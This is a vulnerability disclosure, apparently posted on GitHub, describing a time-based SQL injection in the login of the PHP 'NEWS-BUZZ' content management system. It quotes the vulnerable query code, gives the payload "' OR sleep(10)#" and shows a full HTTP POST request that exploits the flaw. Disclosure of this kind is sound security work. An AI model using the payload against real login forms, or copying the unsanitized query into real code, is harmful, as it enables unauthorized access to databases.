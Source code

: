 ## Vulnerability Details:
- **Application Name**: Content Management System
- **Software Link**: [Download Link](https://code-projects.org/content-management-system-in-php-with-source-code-2/)
- **Vendor Homepage**: [Vendor Homepage](https://github.com/anirbandutta9/NEWS-BUZZ)
- **BuG**: Time-Based SQL Injection
- **BUG_Author**: egsec

## About project:
The Content Management System In PHP is a simple project that allows users to post and manage various kinds of news content.

## Vulnerability Description:
- There is a sql injection vulnerability in the login part of the index.php file. It allows an attacker to manipulate the SQL query and potentially perform unauthorized actions on the database. 

## Vulnerable Code Section:
```php
$query = "SELECT * FROM users WHERE username = '$username'";
$result = mysqli_query($conn, $query) or die(mysqli_error($conn));
```
- In this line, the `$username` variable is directly embedded into the SQL query without proper handling. This allows an attacker to inject malicious SQL code.

## Proof of Concept (PoC):
- Location: `http://localhost/NEWS-BUZZ/index.php`
- Time-Based SQL Injection Payload: `' OR sleep(10)#`
- Poc Video : [Video Link](https://youtu.be/ObW-S05rYVI)
- request
```python
POST /NEWS-BUZZ/login.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
Origin: http://localhost
Connection: close
Referer: http://localhost/NEWS-BUZZ/index.php
Cookie: PHPSESSID=456n0gcbd6d09ecem39lrh3nu9
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

user_name=admin%27+or+sleep%2810%29%23&user_password=adminpass&login=
```
- The response will come called time by using `sleep()` function.

## Impact:
- In a time-based SQL injection attack, an attacker manipulates SQL queries to measure response times and infer information based on delays. This type of attack is useful when the application doesn’t return direct errors or output that can be used to assess query behavior.
An attacker can use time-based SQL injection to extract the contents of a database.

## Reproduce:
- [vuldb.com link](https://vuldb.com/?id.282927)
